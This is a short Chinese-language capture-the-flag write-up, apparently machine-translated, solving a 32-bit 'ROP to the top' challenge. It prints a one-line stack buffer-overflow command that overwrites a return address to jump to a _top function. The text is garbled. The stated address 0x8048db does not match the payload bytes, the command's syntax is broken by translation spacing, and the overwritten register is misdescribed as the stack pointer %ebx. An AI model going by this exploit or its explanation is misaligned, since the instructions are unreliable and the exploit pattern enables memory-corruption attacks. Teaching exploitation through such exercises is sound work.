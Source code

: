 我们发现 _top 函数的地址**是 **0x8048db** 。缓冲区大小也是 **0x28** 。**

所以，下面的命令对我们有用-

**。/ROP _ to _ the _ top 32 " $(python-c ' print " A " * 0x 28+" BBBB "+" \ xdb \ x84 \ x04 \ x08 " ')"**

我们输入字符“A”来填充缓冲区的大小，输入“BBBB”来替换当前的堆栈指针(%ebx)，后跟我们希望指向的地址，这里是函数**_ top**的地址。

在 shell 服务器上运行上面的命令会给我们一个标志。

*想了解更多文章，可以关注我的*[*Github*](https://github.com/wr47h)*。*